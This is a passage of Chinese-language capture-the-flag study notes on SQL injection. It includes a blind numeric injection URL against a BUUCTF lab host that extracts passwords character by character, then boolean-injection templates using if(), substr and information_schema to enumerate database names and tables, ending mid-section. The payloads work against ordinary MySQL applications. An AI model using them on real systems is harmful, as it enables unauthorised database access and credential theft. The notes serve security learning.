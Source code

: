 
`''`没有被过滤，输入11回显`'ERROR',1^0回显'NO! Not this! Click others~~~'`，判断出为数字型注入。

由于空格被过滤，用()代替，我这里payload直接写到了最后一步，猜解表名，字段名的payload我这里就不写了，直接去嵌套常规的联合查询语句即可。

```
payload = "http://33e8c85b-d0d4-4777-9143-702ddf10ee0e.node3.buuoj.cn/search.php?id=1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)" %(i,mid)
```


### 0x4 布尔注入
https://blog.csdn.net/weixin_44732566/article/details/104455318

可以看到id=1 and 1=1 => success 和id=1 and 1=2 =>error，所以我们使用if(expr1,expr2,expr3)函数来盲注
    
    if(expr1,expr2,expr3)，如果expr1的值为true，则执行expr2语句，如果expr1的值为false，则执行expr3语句。

判断语句，当第一条语句是正确就执行第二条语句，不正确就执行第三条语句, 子查询要求返回结果只有一条记录,否则报错
    
    子查询格式：select * from users where id=(select username from users);

判断数据库名第一位为's':
    
    payload: select * from news where id=if(substr(database(),1,1)='s',1,(select table_name from information_schema.tables))
    循环脚本爆破
    payload: select * from news where id=if(substr(database(),%d,1)='%s',1,(select table_name from information_schema.tables))

查table
    # 查全部表
    select * from user where id=1  and ord( SUBSTR((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>97;
    # 查表个数
    select * from user where id=1 and (select count(*) from information_schema.tables where table_schema=database())= 表的个数 %23
    # 查表
    select * from user where id=1  and ord(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97
    select * from user where id=1  and ord(substr((select table_name from information_schema.tables where table_schema=database() limit 第几个表,1),1,1))=字符ascii值


    url = urlOPEN+'if(substr((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' %(k,j,i)
    解析
        select table_name from information_schema.tables where table_schema=database() -- 查当前数据库所有表
        select table_name from information_schema.tables where table_schema=database() limit %d,1 -- 所有表中的%d行

column
